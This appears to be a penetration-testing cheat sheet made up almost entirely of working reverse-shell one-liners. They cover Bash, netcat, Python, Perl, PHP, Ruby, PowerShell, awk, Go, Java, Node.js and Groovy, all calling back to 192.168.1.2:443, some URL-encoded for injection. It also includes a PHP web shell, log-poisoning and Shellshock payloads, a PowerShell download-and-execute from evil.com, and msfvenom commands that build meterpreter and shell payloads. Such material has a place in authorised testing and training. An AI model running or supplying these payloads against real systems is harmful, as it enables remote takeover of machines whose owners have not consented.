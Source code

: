 # Reverse Shell (Cheat Sheet)

`Bash`

  ```cmd
  bash -i >& /dev/tcp/192.168.1.2/443 0>&1

  bash -c "bash -i >& /dev/tcp/192.168.1.2/443 0>&1"
  
  bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.2%2F443%200%3E%261%22
  ```
  
`PHP Web Shell`

  ```php
  <?php system($_GET['cmd']); ?>
  ```
  
`Web Shell (SSH Log Poisoning) -> /var/log/auth.log`

  ```php
  ssh '<?php system($_GET['cmd']); ?>'@192.168.1.2
  ```

`Web Shell (HTTP User-Agent Log Poisoning) -> /var/log/apache2/access.log`

  ```cmd
  curl -s -H "User-Agent: <?php system(\$_GET['cmd']); ?>" "http://192.168.1.2/browse.php?file=../../../../../var/log/apache2/access.log"
  ```
  
  ```cmd
  User-Agent: <?php system($_GET['cmd']); ?>
  ```
`Shellshock`

  ```cmd
  curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.sh"
  
  curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.cgi"
  ```
  
  `Shellshock (Internal Server Error)`

  ```cmd
  curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.sh"
  
  curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.sh"
  
  curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.cgi"
  
  curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.cgi"
  ```
  
`Netcat`

  ```cmd
  nc -e /bin/sh 192.168.1.2 443

  nc -e /bin/bash 192.168.1.2 443

  nc -c bash 192.168.1.2 443
  
  nc.exe -e cmd 192.168.1.26 443

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f
  
  rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.1.2%20443%20%3E%2Ftmp%2Ff
  ```

`Perl`

  ```cmd
  perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

`Python`

  ```cmd
   export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  ```

`PHP`
  ```php
  php -r '$sock=fsockopen("192.168.1.2",443);`/bin/sh -i <&3 >&3 2>&3`;'
  
  php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);system("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);passthru("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
  ```
  
`Ruby`

  ```cmd
  ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

  ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

  ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  ```
  
`Xterm`

   ```cmd
   xterm -display 192.168.1.2:443
   ```
   
`Ncat`

  ```cmd
  ncat 192.168.1.2 443 -e /bin/bash
  ```

`Powershell`

  ```powershell
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  
  powershell IEX (New-Object Net.WebClient).DownloadString('https://www.evil.com/reverse.ps1')
  ```

`Awk`

  ```cmd
  awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
  ```
 `Gawk`
 
 ```cmd
 gawk 'BEGIN {P=443;S="> ";H="192.168.1.2";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
 ```
 `Golang`

  ```cmd
  echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.1.2:443");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
  ```
   `Telnet`

  ```cmd
  rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.2 443 0/tmp/p
  ```
  ```
  telnet 192.168.1.2 80 | /bin/bash | telnet 192.168.1.2 443
  ```
  
  `Java`

  ```cmd
  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.2/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()
  ```
  `Node.js`
  
  ```cmd
  require('child_process').exec('bash -i >& /dev/tcp/192.168.1.2/443 0>&1');
  ```
  
`Groovy (Jenkins)`

  ```cmd
  String host="192.168.1.2";
  int port=443;
  String cmd="cmd.exe";
  Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
  ```


`Msfvenom`

`Php`

```cmd
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php
```

```cmd
msfvenom -p php/reverse_php LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php
```

`War`

```cmd
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war
```

`JSP`

```cmd
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.jsp
```

`Aspx`

```cmd
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f aspx -o reverse.aspx
```

`Windows`

`Meterpreter (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
 ```
 
`x64`

```cmd
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`Shell (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`x64`

```cmd
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`Shell (Netcat Listener) [Stageless]`

`x86`

```cmd
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```
`x64`

```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`Linux`

`Meterpreter (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`x64`

```cmd
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`Shell (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`x64`

```cmd
msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`Shell (Netcat Listener) [Stageless]`

`x86`

```cmd
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```
`x64`

```cmd
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```
